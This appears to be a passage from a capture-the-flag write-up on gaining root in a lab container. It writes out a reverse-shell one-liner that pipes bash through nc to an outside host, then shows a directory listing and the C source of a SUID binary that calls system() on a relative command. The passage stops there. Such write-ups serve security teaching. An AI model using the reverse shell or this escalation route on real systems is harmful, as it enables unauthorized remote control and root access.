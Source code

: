 # Flag #5

The 4th flag is asking us to become root. Let's do that.

With a working webshell, I should be able to get a proper reverse shell by running the following command:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc vps_hostname 4444 >/tmp/f
```

I now have a reverse shell as www-data user. Next, I started to look for privilege escalation vector. I looked for the classic vectors :

- cron jobs
- writable folder
- suid binaries

Then I found a suid binary right at server root :

```bash
$ ls -la /
total 112
drwxr-xr-x   1 root root  4096 Feb 16 13:44 .
drwxr-xr-x   1 root root  4096 Feb 16 13:44 ..
-rwxr-xr-x   1 root root     0 Feb 16 13:44 .dockerenv
drwxr-xr-x   1 root root  4096 Feb 16 13:14 bin
drwxr-xr-x   2 root root  4096 Feb  1  2020 boot
drwxr-xr-x   5 root root   340 Feb 16 13:44 dev
drwxr-xr-x   1 root root  4096 Feb 16 13:44 etc
drwxr-xr-x   1 root root  4096 Feb  9 04:23 home
drwxr-xr-x   1 root root  4096 Feb 26  2020 lib
drwxr-xr-x   2 root root  4096 Feb 24  2020 lib64
drwxr-xr-x   2 root root  4096 Feb 24  2020 media
drwxr-xr-x   2 root root  4096 Feb 24  2020 mnt
-rw-r--r--   1 root root   127 Feb  9 03:50 my_very_special_script.c
-rwsr-sr-x   1 root root 16680 Feb 16 13:14 my_very_special_script.o
drwxr-xr-x   2 root root  4096 Feb 24  2020 opt
dr-xr-xr-x 439 root root     0 Feb 16 13:44 proc
drwx------   1 root root  4096 Feb 26  2020 root
drwxr-xr-x   1 root root  4096 Feb 26  2020 run
drwxr-xr-x   1 root root  4096 Feb 26  2020 sbin
drwxr-xr-x   2 root root  4096 Feb 24  2020 srv
dr-xr-xr-x  13 root root     0 Feb 15 13:29 sys
drwxrwxrwt   1 root root  4096 Feb 16 13:44 tmp
drwxr-xr-x   1 root root  4096 Feb 24  2020 usr
drwxr-xr-x   1 root root  4096 Feb 26  2020 var
```

We have an executable file and the source code :

```bash
$ cat /my_very_special_script.c

#include <unistd.h>
#include <stdlib.h>

int main() {
    setuid(1000);
    system("touch /tmp/hello_world");
    return 0; 
}
```
